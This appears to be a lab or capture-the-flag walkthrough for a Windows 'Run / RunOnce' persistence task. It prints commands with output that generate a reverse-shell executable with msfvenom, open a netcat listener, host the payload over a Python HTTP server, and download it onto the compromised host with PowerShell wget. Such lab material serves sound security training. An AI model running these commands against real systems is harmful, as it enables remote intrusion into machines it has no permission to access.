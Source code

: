 #
## Run / RunOnce

1. Started up this task's machine
2. `msfvenom -p windows/x64/shell_reverse_tcp LHOST=<ATTACK MACHINE IP> LPORT=<PORT NUMBER> -f <PAYLOAD FORMAT> -o <PAYLOAD NAME>.exe` from our Linux attack machine to use Metasplout's msfvenom to generate a Windows executable for a reverse shell payload that we'll execute on the compromised Windows machine
```Bash
root@ip-10-10-157-221:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.157.221 LPORT=9999 -f exe -o revshell.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: revshell.exe
```
3. `nc -lvnp <PORT NUMBER>` from our Linux attack machine to open up a netcat listener that'll listen for inbound connections
```Bash
root@ip-10-10-157-221:~# nc -lvnp 9999
Listening on [0.0.0.0] (family 0, port 9999)
```
4. `sudo python3 -m http.server` from our Linux attack machine to start a simple HTTP server on our attack machine to allow the compromised Windows machine to connect back to our attack machine and download the reverse shell payload that we just created
```Bash
root@ip-10-10-157-221:~# sudo python -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```
5. `PowerShell` from the compromised Windows machine to launch PowerShell
```PowerShell
C:\Users\Administrator>powershell
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.
```
6. `wget http://<ATTACK MACHINE IP>:8000/<PAYLOAD NAME>.exe -O <PAYLOAD NAME>.exe` from the compromised Windows machine to download our payload from our attack machine and save it under a different name 
```PowerShell
PS C:\Users\Administrator> wget http://10.10.157.221:8000/revshell.exe -O revshell.exe
```
7. `dir` from the compromised Windows machine display the files and directories that are in our current working directory to verify if the payload has been successfully downloaded from our attack machine, which it has
```PowerShell
PS C:\Users\Administrator> dir


    Directory: C:\Users\Administrator


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-r---        3/17/2021   3:13 PM                3D Objects
d-r---        3/17/2021   3:13 PM                Contacts
d-r---         6/8/2022   4:40 AM                Desktop
d-r---        5/29/2022  12:07 AM                Documents
d-r---        5/29/2022  12:07 AM                Downloads
d-r---        3/17/2021   3:13 PM                Favorites
d-r---        3/17/2021   3:13 PM                Links
d-r---        3/17/2021   3:13 PM                Music
d-r---        3/17/2021   3:13 PM                Pictures
d-r---        3/17/2021   3:13 PM                Saved Games
```